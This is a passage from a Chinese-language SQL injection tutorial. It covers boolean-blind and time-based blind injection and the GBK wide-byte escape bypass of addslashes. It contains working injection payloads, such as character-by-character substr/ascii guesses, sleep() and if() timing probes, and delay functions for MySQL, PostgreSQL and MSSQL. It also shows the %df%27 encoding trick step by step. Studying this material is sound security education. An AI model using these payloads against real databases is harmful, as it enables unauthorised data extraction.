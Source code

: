 ### bool注入
&#8195;&#8195;如果既没有可控回显点，也没有报错信息，但是页面有正常和异常两种显示，我们就可以构造查询，通过页面状态判断猜解是否正确，其实是爆破的一种类型，本质上是一个字符一个字符的**猜解**，常用函数：
```
LENGTH(s): 返回字符串 s 的长度
LEFT(s,n)：返回字符串 s 的前 n 个字符
ASCII(s)：返回字符串 s 的第一个字符的 ASCII 码
SUBSTR(s, start, length)：从字符串 s 的 start 位置截取长度为 length 的子字符串
MID、SUBSTR、SUBSTRING 一样
```
简单例子：
```
1' and (length(database()))>10;
1' and ascii(substr((select database()),1,1)>144;
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>60;
```
代码另行补充，网上也有很多可以用。

### 延时注入
&#8195;&#8195;如果没有可控的回显点，没有报错信息，bool真假页面无变化，可以考虑延时注入，常用函数如下：

```
SLEEP (pauses)：休眠，参数为休眠的时长，单位秒
IF(expr1,expr2,expr3)：判断语句 如果第一个语句正确就执行第二个语句如果错误执行第三个语句
FIND_IN_SET(string, string_list)：返回字符串列表中字符串的位置
```
简单例子：
```
1' or sleep(2);
1' and if(ascii(substr(database(),1,1))>115,0,sleep(5));
1' union select 1,2,sleep(find_in_set(mid(@@version, 1, 1), '0,1,2,3,4,5,6,7,8,9,.'));
1' and if(ascii(substring((SELECT distinct concat(table_name) FROM information_schema.tables where table_schema=database() LIMIT 0,1),1,1))=116,sleep(5),1);
```
其他数据库的延时函数：
```
Mysql： BENCHMARK(100000,MD5(1))  or sleep(5) 
Postgresql： PG_SLEEP(5)   OR GENERATE_SERIES(1,10000) 
Mssql： WAITFOR DELAY '0:0:5' 
```

代码另行补充，网上也有很多可以用。

### 宽字节注入
**漏洞原因**
为了防止 SQL 注入，PHP 提供了对特殊字符的转义功能：
> 1. `magic_quotes_gpc=On`，PHP配置，GPPC 在 PHP5.4 之后已经被官方移除。
> 2. `addslashes`，PHP函数。

&#8195;&#8195;这两种方法都是为了实现一个功能，为 POST、GET、COOKIE、$_SERVER（该变量不受GPC保护） 过来的特殊字符前加反斜杠 `\`（也就是做转义），如单引号 `'`、双引号 `"`、反斜线 `\`、`NULL`（NULL 字符）等，但就是这个防止 SQL 注入的功能，成了 SQL 注入的突破点，为避免用户过度依赖这个不是特别安全的函数，**GPC 在 PHP5.4 之后已经被官方移除**。下面看看漏洞产生的过程：
> 1. 构造语句 `%df%27`（%27 是单引号 `'` ） ；
> 2. 首先 `addslashes` 会在单引号前加反斜杠转义，变成 `%df%5c%27`（%5c 是反斜杠 `\` ）；
> 3. 然后因为数据库设置了 GBK 编码，GBK 是双字节编码，发现 `%df%5c` 在其**汉字编码**范围内，于是 `%df%5c` 被转换成"運"，单引号 `%27` 逃逸；
> 4. 最后MySQL查询时候执行的其实是 `運'`，单引号可闭合代码造成注入漏洞。
> 5. 过程 %df%27--(addslashes)--%df%5c%27--(GBK编码)--運'
